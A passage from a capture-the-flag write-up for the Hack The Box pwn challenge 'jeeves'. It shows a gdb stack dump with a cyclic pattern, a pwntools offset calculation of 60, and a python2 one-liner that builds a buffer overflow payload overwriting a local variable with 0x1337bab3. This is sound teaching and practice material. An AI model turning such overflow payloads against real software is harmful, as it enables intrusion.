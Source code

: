 ```bash
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdfb0 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0008| 0x7fffffffdfb8 ("caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0016| 0x7fffffffdfc0 ("eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0024| 0x7fffffffdfc8 ("gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0032| 0x7fffffffdfd0 ("iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0040| 0x7fffffffdfd8 ("kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0048| 0x7fffffffdfe0 ("maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0056| 0x7fffffffdfe8 ("oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000555555555236 in main ()
```

* Inspecting the value of rbp-0x4 
```bash
gdb-peda$ x/s $rbp-0x4
0x7fffffffdfec: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
```
*finding the offset using cyclic_find,*

```python
┌──(root💀Jude)-[~/htb/challenges-htb/pwn/jeeves]
└─# python3                                                                                                
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find('paaa')
60
>>> 
```

*So the payload will be A \* 60 + 0x1337bab3*

#### Payload
*0x1337bab3 is on reverse order due to little endian formating*

```bash
┌──(root💀Jude)-[~/htb/challenges-htb/pwn/jeeves]
└─# python2 -c 'print "A" * 60 + "\xb3\xba\x37\x13"' > jeeves_payload 
```

* Testing payload
